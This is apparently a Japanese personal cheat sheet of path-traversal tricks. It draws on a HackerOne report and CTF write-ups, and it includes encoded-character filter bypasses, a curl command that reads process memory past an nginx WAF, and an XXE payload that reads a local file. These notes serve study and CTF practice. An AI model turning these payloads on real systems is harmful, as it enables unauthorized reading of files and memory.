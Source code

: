 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [概要](#%E6%A6%82%E8%A6%81)
- [writeup](#writeup)
  - [bypass filter "." with "%E3%80%82" (hackerone)](#bypass-filter--with--hackerone)
  - [python / bypass nginx WAF with "?" / "/proc/self/maps" (ångstromCTF 2020 - LeetTube)](#python--bypass-nginx-waf-with---procselfmaps-%C3%A5ngstromctf-2020---leettube)
  - [XXE (SHARKY CTF 2020 XXEXTERNALXX)](#xxe-sharky-ctf-2020-xxexternalxx)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->
# 概要
https://security.stackexchange.com/questions/74538/alternative-ways-to-exploit-this-path-traversal/74614#74614  
以下でバイパスできるかも？？  
```txt 
/ %2f %u2215 %252f %c0%af, %e0%80%af, %c0%2f
\ %5c %u2216 %255c %c0%5c, %c0%80%5c
.     %u002e %252e %c0%2e, %e0%40%ae, %c0ae
```
nginx 0.6.36以前ではDirectory Traversalの脆弱性がある。  
https://www.exploit-db.com/exploits/12804  

# writeup
## bypass filter "." with "%E3%80%82" (hackerone)
https://hackerone.com/reports/291750  
- **entrypoint**  
`.`は`%E3%80%82`として`。`のURLエンコードでバイパスできるかもらしい。  
`hxxxs://steamcommunity.com/linkfilter/?url=pornhub.com`はLinkがBlockされるけど、`hxxxs://steamcommunity.com/linkfilter/?url=pornhub%E3%80%82com`で
バイパスできる！  
- **payload**  
`hxxxs://steamcommunity.com/linkfilter/?url=pornhub%E3%80%82com`  
## python / bypass nginx WAF with "?" / "/proc/self/maps" (ångstromCTF 2020 - LeetTube)
https://blog.srikavin.me/posts/angstromctf-leettube/  
- **entrypoint**  
ソースの以下の部分がパストラバーラルの脆弱性がある。 
`/videos/../../../`みたいにしてファイルを読みだせる！  
```python
			self.path = urllib.parse.unquote(self.path)
			if self.path.startswith('/videos/'):
				file = os.path.abspath('.'+self.path)
				try: video = open(file, 'rb', 0)
```
ただnginxのWAFが上記のリクエストをフィルタリングして400 bad requestを返してしまう。  
`https://leettube.2020.chall.actf.co/videos/../?/../../`みたいにすると、WAFは`?`以降をクエリとしてそこは見ない。python側では`?`フォルダに一回入ってから`../`で抜けるみたいな意味になるらしい？？  
flagは`flag.txt`みたいな感じじゃなくて`.mp4`に書き込まれてるらしくてメモリ上から抜き出す。  
`/proc/self/maps`でメモリマップ(どのアドレスがどうとか)がわかり、`/proc/self/mem`で実際のメモリを呼び出せるらしい。  
以下のように`Range`ヘッダで指定したアドレスを抜き出せるっぽい？？？  
これで`.mp4`のヘッダを表す`66 74 79 70`というパターンを見つけるとFlagがある。  
```txt
curl --path-as-is 'https://leettube.2020.chall.actf.co/videos/../?/../../proc/self/mem' -H "Range: bytes $(python3 -c 'print(f"{0x7f4d4c225000}-{0x7f4d4cae6000}")')" --output memory.dump
```
- **payload**  
```txt
curl --path-as-is 'https://leettube.2020.chall.actf.co/videos/../?/../../proc/self/mem' -H "Range: bytes $(python3 -c 'print(f"{0x7f4d4c225000}-{0x7f4d4cae6000}")')" --output memory.dump
```
## XXE (SHARKY CTF 2020 XXEXTERNALXX)
https://jaiguptanick.github.io/Blog/blog/SharkyCTF_Writeup_web/  
- **entrypoint**  
`?xml=aaaa`としてURLでアクセスすると`file_get_contents(aaaa): failed to open stream: No such file or directory`というエラーが表示されることから、`aaaa`をファイルとして開こうとしていることがわかる。  
また、`loadXML(): Empty string supplied as input`とかのerrorも出ており、開いたファイルをXML解析しようとしていることがわかる。つまり、XXEすればよい！  
`file_get_contents`は`http://`みたいに外部のURLを指定してもOK。  
以下のXXEのためのファイルを攻撃者サーバーに用意しておいてアクセスさせる。  
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```
- **payload**  
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>

## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  
## 
- **entrypoint**  
- **payload**  

# メモ
https://www.hamayanhamayan.com/entry/2020/08/30/110845  
